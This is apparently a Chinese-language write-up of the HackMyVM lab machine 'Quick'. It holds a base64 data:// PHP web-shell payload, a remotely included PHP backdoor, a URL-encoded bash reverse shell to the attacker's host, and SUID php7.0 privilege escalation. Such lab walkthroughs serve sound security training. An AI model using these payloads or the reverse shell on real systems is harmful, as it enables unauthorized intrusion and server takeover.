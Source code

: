 ```yaml
---
{"dg-publish":true,"tags":["HMV","RFI","SUID提权"],"难度":"⭐️⭐️","作者":"sml","系统":"Linux","permalink":"/24-渗透/HMV/3.quick/","dgPassFrontmatter":true,"noteIcon":"2","created":"2024-11-22T19:13:18.842+08:00"}
---
```



## 1. 基本信息^toc

- [[24-渗透/HMV/3.quick#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/3.quick#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/3.quick#3. 文件包含\|3. 文件包含]]
- [[24-渗透/HMV/3.quick#4. RFI利用\|4. RFI利用]]
	- [[24-渗透/HMV/3.quick#4.1. 姿势1：data://伪协议法\|4.1. 姿势1：data://伪协议法]]
	- [[24-渗透/HMV/3.quick#4.2. 姿势2: 远程文件包含法\|4.2. 姿势2: 远程文件包含法]]
- [[24-渗透/HMV/3.quick#5. 绕过.php\|5. 绕过.php]]
- [[24-渗透/HMV/3.quick#6. SUID 提权\|6. SUID 提权]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=Quick
```


```
难度：⭐️⭐️
```


```
知识点：RFI  SUID提权
```

## 2. 信息收集

端口扫描

```Bash
Nmap scan report for 192.168.9.5
Host is up (0.00050s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http
```
目录扫描

```Bash
[17:42:29] 200 -  771B  - /about.php
[17:42:36] 200 -  616B  - /contact.php
[17:42:40] 200 -    1KB - /home.php
[17:42:40] 200 -  630B  - /images/
[17:42:40] 301 -  311B  - /images  ->  http://192.168.9.5/images/
```
## 3. 文件包含

访问一下

about.php

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.001.png)

发现主页有一个about按钮，点击后

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.002.png)

会发现下面的内容就是about.php里面的

结合一下这个Url 

/index.php?page=about

很容易猜测出这里有个是有一个文件包含，这里包含了about.php所以这个界面就显示了/about.php的内容

这里我们就要看是本地包含 还是远程文件包含了

先测试远程文件包含

同网段下的kali新建一个test.php 然后里面随便写点东西

然后用Python启一个http服务

```Bash
echo '123123123' >test.php
python3 -m http.server
```
访问网站

```Bash
http://192.168.9.5/index.php?page=http://192.168.9.3/test
```


```<p>192.168.9.3是kali的ip</p><p>192.168.9.5是靶机ip</p>
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.003.png)

成功实现远程文件包含

## 4. RFI利用
### 4.1. 姿势1：data://伪协议法

好处： 直接传数据，不用包含远程服务器上的文件

参考文章：[Quick](https://d4redevilx.github.io/posts/hackmyvm/quick/#escalaci%C3%B3n-de-privilegios)

payload：

```Bash
page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnb2snIDs/Pg==
```


这行 PHP 代码使用数据 URL (data URI) 直接在 PHP 代码中提供数据，而无需访问外部文件。 data://  表示这是一个数据url text/plain ：指定数据的 MIME 类型，这里为纯文本。 ;base64 使用base64编码 避免特殊字符出错 PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnb2snIDs/Pg== 编码数据 解码为
  `<?php system($\_GET['cmd']);echo 'ok' ;?></p>`

执行后成功输出ok

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.004.png)

我们传入参数cmd 执行命令

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.005.png)

成功执行，然后反弹shell，这里需要用url编码

```Bash
cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.9.3%2F1234%200%3E%261%27
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.006.png)

### 4.2. 姿势2: 远程文件包含法

在kali中启动一个服务器

```Bash
python3 -m http.server 1122
```
服务器上写一个系统马门

```Bash
<?php
system($\_GET['cmd']);
echo 'okok');
?>
```
远程包含后门文件

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.007.png)

这里我们不需要加上.php 因为他会自动给我们补上，

这里也可以绕过这个.php

## 5. 绕过.php

如利用问号 井号绕过等

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.008.png)

使用#绕过时请用url编码

## 6. SUID 提权

```Bash
(remote) www-data@quick:/tmp$ find / -perm -4000 2>/dev/null
/snap/core20/1828/usr/bin/chfn
/snap/core20/1828/usr/bin/chsh
/snap/core20/1828/usr/bin/gpasswd
/snap/core20/1828/usr/bin/mount
/snap/core20/1828/usr/bin/newgrp
/snap/core20/1828/usr/bin/passwd
/snap/core20/1828/usr/bin/su
/snap/core20/1828/usr/bin/sudo
/snap/core20/1828/usr/bin/umount
/snap/core20/1828/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1828/usr/lib/openssh/ssh-keysign
/snap/snapd/18357/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/bin/at
/usr/bin/sudo
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/su
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/php7.0
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/fusermount
```
这里面发现php具有suid权限

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.009.png)

```Bash
cd /usr/bin
CMD="/bin/sh"
./php7.0 -r "pcntl\_exec('/bin/sh', ['-p']);"
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.010.png)


